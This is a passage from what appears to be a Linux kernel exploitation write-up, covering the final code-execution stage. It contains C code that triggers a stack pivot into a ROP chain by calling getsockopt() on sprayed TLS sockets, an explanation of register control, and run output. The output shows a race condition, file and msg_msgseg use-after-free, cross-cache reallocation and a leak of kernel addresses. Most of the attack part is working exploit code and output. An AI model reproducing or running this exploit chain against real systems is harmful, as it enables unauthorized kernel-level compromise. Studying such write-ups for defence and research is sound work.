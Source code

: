 ## Code execution
The final piece of the puzzle is to trigger the stack pivot. We know that calling `getsockopt()` on that one lucky socket with that one lucky `tls_context` will run the stack pivot code. 
```c
err_t run_machine(struct manager *mgr)
{
    char *spray = mgr->spray;
    uint64_t tls_context = *(uint64_t*)&spray[SK_PROTO_OFF];
    uint64_t pivot_stack = tls_context + 0x20;

    /* Transfer control inside child task */
    if (!fork()) {
        /* Hopefully run along the ROP chain */
        puts("[+] Calling getsockopt() to trigger execution.");
        getsockopt_all_tls(0x41414141, 0x42424242,
                           pivot_stack, 0x8181818181818181);
    }
    /* Busyloop to prevent exit. */
    for (;;);
    __builtin_unreachable();
}

err_t getsockopt_all_tls(int level, int name, void *value, void* len)
{
    for (int i = 0; i < N_TLS_FDS; ++i) {
        IF_ERR(tls_fds[i]) {
            perror("getsockopt_all_tls:fd=-1");
            return ERR;
        }
        getsockopt(tls_fds[i], level, name, value, len);
    }
    return SUCC;
}
```
According to the calling convention on our target machine, we can control all bytes of the `RCX` register through the `value` argument to `getsockopt()`. Our stack pivot gadget, which replaces `getsockopt()` in the target, moves the value in `RCX` (`tls_context + 0x20`) into `RSP` (to use this fake stack) and then returns. The ROP chain, sitting at `tls_context + 0x20`, begins. 

```
guest@target:~$ ./exp
Listening on 127.0.0.1:9999 (tcp)
[.] Creating TCP socks to upgrade later. 
[+] Successfully won the race, attempting file cross-cache.
[.] Closing non-candidate pipes.                 
[+] Creating file use-after-free.        
[+] Reallocating filp page with cross-cache.  
[+] Freeing file again for a msg_msgseg use-after-free.
[+] Spraying tls_context objects for a leak.                                       
[.] Upgrading socks to TLS to spray.    
[+] Leaking tls_context object.
[.] Printing out the kernel leak.

0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 
0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 
0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 
0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 
0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 
0x0000000000000000 0xdead4ead00000000 0x00000000ffffffff 0xffffffffffffffff 
0x0000000000000000 0xffff935608beaa98 0xffff935608beaa98 0x0000000000000000 
0xffffffffba80b660 0xffff935604b2b900 0x0000000000000000 0x0000000000000000 
0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 
0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 
```